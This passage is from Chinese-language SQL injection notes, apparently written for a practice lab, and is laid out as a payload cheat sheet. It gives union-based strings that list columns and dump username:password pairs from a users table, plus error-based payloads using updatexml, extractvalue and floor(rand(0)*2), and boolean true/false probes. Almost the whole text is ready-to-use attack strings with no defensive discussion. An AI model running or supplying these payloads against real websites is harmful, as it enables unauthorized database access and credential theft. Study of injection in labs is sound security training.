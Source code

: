 3. **爆列名**

   ```
   //举例表名：httpinfo,member,message,users,xssblind
   
   ?xxxx=0' union select 1,group_concat(column_name) from information_schema.columns where table_name="表名常用users" --+
   
   ?xxxx= %') union select 1,group_concat(column_name) from information_schema.columns where table_name="表名常用users" --+
   ```

4. **爆值**

   ```
   //举例列名称：id,username,password,level,id,username,password
   
   ?name=0' union select 1,group_concat(username,":",password) from users --+
   
   ?name= %') union select username,password from users --+
   ```




### 报错注入

可以随意跟换函数，需要注意参数个数

- **or updatexml()**
  
  - **3个参数**，最多输出32个字符，`and updatexml(1,payload,1) --+`
  
- **or extractvalue()**
  
  - **2个参数**，最多输出32个字符，`and extractvalue(1, payload) --+`
  
- **floor (rand(0)*2)**

  - 最多输出64个字符

  - ```
    ?id=-1'union select count(*),1, concat('~',(payload),'~',floor(rand(0)*2)) as a from information_schema.tables group by a--+
    //在payload中插入语句
    ```

post传参，合理构造payload

- 判断

  ```
  ?id=1' and 1=1 --+		//正确
  ?id=1' and 1=2 --+		//失败
  ```

1. 爆库

   ```
   id=0' or updatexml(1, concat('~',database()), 1) --+
   ```
